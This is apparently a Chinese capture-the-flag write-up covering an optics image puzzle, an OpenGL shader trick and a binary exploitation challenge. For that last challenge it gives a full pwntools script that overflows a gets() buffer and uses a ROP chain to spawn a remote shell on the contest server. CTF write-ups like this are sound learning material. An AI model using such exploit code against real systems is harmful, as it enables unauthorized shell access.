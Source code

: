 （socat用过不少，这次竟然没想起来它）  

（疑问，这题做出人数怎么这么多？）  

## 来自一教的图片 - 未做出

直言：体验最差的一道题（可能是因为没学过相关的课程，所以完全无从下手）  

搜索题目里加粗的“傅里叶光学”，得到的大多是透镜图和物理学公式，与本题毫无关系  
考虑了傅里叶变换，网上找到的大多是粗浅的介绍，而且示例的频谱图和题图相差太远，遂不考虑  
下载图片的文件名是4f_system_middle.bmp，因此找了很久4f系统的内容，有一篇“基于4f系统的光学图像加密与解密仿真教学”，里面的例图和本题图片几乎一样，但这篇文章讲的是图片加密，需要一张密钥图片  

（而且，这题做出人数怎么也这么多？？）  

## 超简陋的OpenGL小程序

不懂计算机图形学，最开始尝试逆向exe，太复杂了  
然后乱改fs和vs文件，发现vs文件改成gl_Position = projection \* view \* vec4(FragPos, 1.0+1.3)-3.0;可以勉强看到flag，再稍微猜一猜  
（然而还是不懂为什么这样改）  

## 生活在博弈树上

静态链接+没开pie+没去符号+给了源码  
（太幸福了）  

gets简单栈溢出，没有canary，无需泄露地址，rop两关一起梭  

```python
from pwn import *

def sendanswer(ans):
    global s
    s.sendlineafter("Your turn. Input like (x,y), such as (0,1):", ans)

pop_rdi_ret = 0x4017b6
pop_rdx_rsi_ret = 0x43fb99 
pop_rax_ret = 0x43e52c
syscall = 0x402bf4
gets = 0x409E00
buf = 0x4a8f00

ropchain = p64(pop_rdi_ret)+p64(buf)+p64(gets) \
    +p64(pop_rdi_ret)+p64(buf) \
    +p64(pop_rdx_rsi_ret)+p64(0)+p64(0) \
    +p64(pop_rax_ret)+p64(59) \
    +p64(syscall) 

#s = process("./tictactoe")
s = remote("202.38.93.111", 10141) ; s.sendlineafter("token", "<hide here>")

sendanswer("(1,1)")
sendanswer("(0,2)")
sendanswer("(1,0)")
sendanswer(b"(2,2)".ljust(128, b' ')+b' '*8+b'\0\0\0\0\0\0\0\1'+b' '*8+ropchain)
s.send('/bin/sh\0')

s.interactive()
```
